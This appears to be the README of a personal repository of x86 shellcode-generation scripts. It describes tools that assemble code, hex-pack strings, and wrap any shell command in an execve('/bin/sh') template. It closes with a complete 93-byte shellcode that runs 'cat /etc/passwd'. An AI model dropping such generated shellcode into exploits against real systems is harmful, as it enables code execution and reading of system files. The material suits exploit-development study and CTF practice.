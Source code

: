 reversingtools - x86
====================
x86 Tools and Scripts - Probably don't use on OSX

<strong>comp_and_dump.sh</strong> - compiles .asm files with nasm, links them with ld, dumps the bytecode with objdump, and turns it into shellcode with the '\x' character in front for quick use. Reads from shl.asm and outputs shl.o and shl (the executable you should test). Now it cleans up the shl.o file and outputs the number of bytes to stderr so you can redirect to a file without getting the byte count in there.
<strong>packWord.pl</strong> - packs a string into hex, use the -r option for reverse (good for pushing a string to the stack for shellcode)
<strong>doshcommandinssembly.pl</strong> - takes all arguments, converts them to hex, and uses a template to run execve("/bin/sh", ["/bin/sh", "-c", "{your args}", NULL], NULL) to call them in assembly. Outputs program as shl.asm.
I'll probably update these tools to take in a user supplied output filename (or at the very least cleanup the files after)

<strong>Example:</strong> ./doshcommandinassembly.pl /bin/cat /etc/passwd && ./comp_and_dump.sh<br>
<strong>Output:</strong> \x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xd0\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x68\x2d\x63\x11\x11\x66\x89\x44\x24\x02\x89\xe1\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x51\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x89\xc3\xb0\x01\xcd\x80<br>93 Bytes<br>
The output can be used where any shellcode would be used and will print the contents of /etc/passwd to the screen
